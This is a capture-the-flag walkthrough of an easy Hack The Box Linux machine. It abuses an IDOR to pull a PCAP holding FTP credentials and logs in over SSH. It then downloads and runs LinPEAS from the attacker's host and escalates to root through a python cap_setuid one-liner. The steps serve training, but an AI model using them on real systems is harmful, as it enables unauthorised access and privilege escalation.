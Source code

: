 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon
```bash
nmap -T4 -A -p- 10.10.10.245
```

### Ports Found
- **21/tcp** → [FTP](FTP) (vsftpd 3.0.3)
- **22/tcp** → [SSH](SSH) (OpenSSH 8.2p1)
- **80/tcp** → [HTTP](HTTP) (gunicorn)

---

## 🔧 Web Enumeration
- Visit `http://10.10.10.245` → Security Dashboard interface
- `Security Snapshot` → Download PCAP files via `/download` endpoint
- Change `id=1` to `id=0` to reveal an additional hidden PCAP

### Download and Analyze PCAP
```bash
# Download hidden capture
curl "http://10.10.10.245/download?id=0" -o hidden.pcap

# Open in Wireshark and search for "password"
```

### Extracted Credentials from FTP
- **Username:** nathan
- **Password:** Buck3tH4TF0RM3!

---

## 🔐 Access via SSH
```bash
ssh nathan@10.10.10.245
# password: Buck3tH4TF0RM3!
```

---

## 🪧 Privilege Escalation
### Use LinPEAS
```bash
# Transfer and run LinPEAS
wget http://10.10.14.6/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Finding
- `/usr/bin/python3.8` has **cap_setuid** capability

### GTFOBins Exploit
```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

---

## ✅ Root Access
```bash
whoami
id
cat /root/root.txt
```

---

## 📂 Summary
- Cleartext FTP credentials found in PCAP
- Used for SSH access
- `cap_setuid` capability abused on Python for root shell

---

## 📃 Resources
- [GTFOBins - python](https://gtfobins.github.io/gtfobins/python/#capabilities)
- [CVE-Exploit Reference](https://www.hackthebox.com)